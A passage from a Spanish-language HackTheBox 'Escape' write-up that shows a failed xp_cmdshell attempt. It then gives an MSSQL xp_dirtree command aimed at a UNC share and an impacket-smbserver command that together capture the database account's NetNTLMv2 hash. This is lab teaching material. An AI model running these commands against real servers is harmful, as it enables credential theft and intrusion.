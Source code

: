 ![](/assets/images/HTB/Escape-HackTheBox/6.webp)

# Explotación [#](explotación) {#explotación}

Intento usar xp_cmdshell para intentar ejecutar comandos en el sistema y conseguir ganar acceso a través de una reverse shell pero no me deja.

```sql
SQL> xp_cmdshell whomai
[-] ERROR(DC\SQLMOCK): Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.
```

Tras buscar información encontré un artículo que podría servirme.

(https://medium.com/@markmotig/how-to-capture-mssql-credentials-with-xp-dirtree-smbserver-py-5c29d852f478)[https://medium.com/@markmotig/how-to-capture-mssql-credentials-with-xp-dirtree-smbserver-py-5c29d852f478]

Este artículo muestra como ejecutando un pequeño comando en la base de datos podemos conseguir el hash netntlmv2 del usuario que gestiona la base de datos, es muy sencillo.

```bash
EXEC master.sys.xp_dirtree '\\10.10.11.202\Public',1, 1
```

Y a su vez con `smbserver.py` capturamos el hash.

```bash
sudo impacket-smbserver $(pwd) filetransfer -smb2support
```

![](/assets/images/HTB/Escape-HackTheBox/7.webp)
